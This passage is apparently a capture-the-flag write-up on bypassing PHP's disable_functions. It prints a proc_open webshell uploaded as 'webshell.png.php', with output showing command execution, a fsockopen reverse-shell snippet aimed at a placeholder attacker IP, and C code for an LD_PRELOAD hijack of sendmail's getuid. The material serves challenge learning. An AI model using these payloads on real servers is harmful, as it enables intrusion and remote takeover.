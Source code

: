 ### Bypass `disable_functions` via `proc_open`

To bypass this, we can try to find different functions that allow us to execute arbitrary OS commands. In PHP, there's a function called **[`proc_open`](https://www.php.net/manual/en/function.proc-open.php)**, which executes an OS command and open file pointers for input/output.

Here's an example that execute OS command `id` and display the [stdout (`1`)](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)) buffer:

```php
$process = proc_open("id", [ 1 => ["pipe", "w"] ], $pipes);
echo stream_get_contents($pipes[1]);
```

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:27:26(HKT)]
└> python3 arbitrary_file_upload.py '$process = proc_open("id", [ 1 => ["pipe", "w"] ], $pipes); echo stream_get_contents($pipes[1]);'
[*] Webshell payload:
<?php
$process = proc_open("id", [ 1 => ["pipe", "w"] ], $pipes); echo stream_get_contents($pipes[1]);
?>
[+] The file has been uploaded to uploads/webshell.png.php
[+] Response text:
GIF89a
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! We got RCE!

We can even pop a reverse shell via function [`fsockopen`](https://www.php.net/manual/en/function.fsockopen.php)!

```php
$sock = fsockopen("<attacker_ip>", <attacker_port>);
$process = proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```

### Bypass `disable_functions` via `LD_PRELOAD` Trick

It is also possible to bypass `disable_functions` via hijacking binary `sendmail`'s function `getuid`.

In PHP, the [`mail` function](https://www.php.net/manual/en/function.mail.php) will actually run binary `sendmail` (In UNIX system). Inside that binary, the function `getuid` is imported from a [shared library](https://en.wikipedia.org/wiki/Shared_library), `getuid_shadow.so`.

What if I tell you that we can control what library that the `sendmail` binary will import? In environment variable `LD_PRELOAD`, it can override the shared library's file path! Therefore, we can **set `LD_PRELOAD`'s value to be our malicious shared library** and execute arbitrary OS commands!

- Compile the following C code to a shared library

`exploit.c`:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    const char* command = getenv("CMD");
    system(command);
}

int getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    
    unsetenv("LD_PRELOAD");
    payload();
```